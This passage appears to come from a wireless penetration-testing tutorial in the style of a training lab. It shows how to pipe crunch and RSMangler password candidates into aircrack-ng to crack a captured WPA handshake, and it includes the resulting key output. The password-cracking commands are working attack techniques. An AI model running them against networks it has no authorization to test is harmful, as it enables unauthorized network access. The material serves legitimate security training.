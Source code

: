 Because there's very little value in storing all these generated passwords on disk, we can pipe it directly into **aircrack-ng**:

```bash
kali@kali:~$ crunch 11 11 -t password%%% | aircrack-ng -e wifu crunch-01.cap -w -
...

                              Aircrack-ng 1.5.2

                   [00:00:02] 128 keys tested (48.74 k/s)


                          KEY FOUND! [ password123 ]


      Master Key     : 57 7D EF 0B 09 FF 92 92 3F 15 52 E8 48 D8 26 6D
                       EB 10 8A 15 B5 F0 62 14 4F 88 C1 78 FB D4 52 04

      Transient Key  : 2E 8D 54 FF 59 CD 06 85 40 EB 36 66 58 0F FD DF
                       19 84 FC FA 6C EC F7 8A 29 12 83 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : DC 5F 0D 69 7D 77 64 C1 16 7D F4 13 B5 8D 51 AB
```

### Using Aircrack-ng with RSMangler

_RSMangler_ is a Ruby script that takes words as input and modifies them in multiple ways.

Using RSMangler with a wordlist, sending to aircrack-ng:

{% code overflow="wrap" %}
```bash
kali@kali:~$ rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -

...
                              Aircrack-ng 1.5.2

                   [00:00:02] 128 keys tested (48.74 k/s)


                          KEY FOUND! [ 41birdcatdog ]


      Master Key     : CE BD A8 BD 43 39 5B 4E 1E 7E 2B A6 77 F0 3D 85
                       20 7E E2 AF 6E 9C 9C A2 1D F2 33 B7 9E C2 A1 A8

      Transient Key  : B8 7D A9 6F EA BD 4C 52 3F 57 09 8A C5 37 F1 41
                       87 B6 B7 87 21 D1 82 63 1F 9A B7 41 E2 AD 22 08
                       7A 6B F2 D4 19 26 66 09 D2 BB F4 AB 89 26 AA 5D
                       E7 E5 9E 85 30 80 1B A8 4A 14 BD 73 82 7E D3 0F

      EAPOL HMAC     : 58 CD C7 9E 0E 45 66 05 5B E1 0C 10 93 D7 65 2C
```
{% endcode %}
